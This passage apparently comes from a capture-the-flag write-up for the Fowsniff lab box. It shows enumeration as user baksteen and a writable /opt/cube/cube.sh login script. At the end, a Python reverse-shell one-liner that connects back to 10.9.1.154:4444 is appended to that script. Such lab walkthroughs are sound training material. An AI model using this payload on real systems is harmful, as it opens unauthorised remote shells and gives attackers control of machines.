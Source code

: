 And I am in.


---
## Linux Enum
Some basic enum:

```
baksteen@fowsniff:~$ groups
users baksteen
baksteen@fowsniff:~$ sudo -l
[sudo] password for baksteen: 
Sorry, user baksteen may not run sudo on fowsniff.
baksteen@fowsniff:~$ find / -group users -type f 2> /dev/null
/opt/cube/cube.sh
/home/baksteen/.cache/motd.legal-displayed
/home/baksteen/Maildir/dovecot-uidvalidity
/home/baksteen/Maildir/dovecot.index.log
/home/baksteen/Maildir/new/1520967067.V801I23764M196461.fowsniff
/home/baksteen/Maildir/dovecot-uidlist
/home/baksteen/Maildir/dovecot-uidvalidity.5aa21fac
/home/baksteen/.viminfo
/home/baksteen/.bash_history
/home/baksteen/.lesshsQ
/home/baksteen/.bash_logout
/home/baksteen/term.txt
/home/baksteen/.profile
/home/baksteen/.bashrc
```


---
## Cube.sh
Can write to and execute this file. Python reverse shell maybe

```
baksteen@fowsniff:~$ nano /opt/cube/cube.sh
baksteen@fowsniff:~$ cat /opt/cube/cube.sh
printf "
                            _____                       _  __  __  
      :sdddddddddddddddy+  |  ___|____      _____ _ __ (_)/ _|/ _|  
   :yNMMMMMMMMMMMMMNmhsso  | |_ / _ \ \ /\ / / __| '_ \| | |_| |_   
.sdmmmmmNmmmmmmmNdyssssso  |  _| (_) \ V  V /\__ \ | | | |  _|  _|  
-:      y.      dssssssso  |_|  \___/ \_/\_/ |___/_| |_|_|_| |_|   
-:      y.      dssssssso                ____                      
-:      y.      dssssssso               / ___|___  _ __ _ __        
-:      y.      dssssssso              | |   / _ \| '__| '_ \     
-:      o.      dssssssso              | |__| (_) | |  | |_) |  _  
-:      o.      yssssssso               \____\___/|_|  | .__/  (_) 
-:    .+mdddddddmyyyyyhy:                              |_|        
-: -odMMMMMMMMMMmhhdy/.    
.ohdddddddddddddho:                  Delivering Solutions\n\n"

python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.9.1.154",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([/bin/sh,-i]);'
```
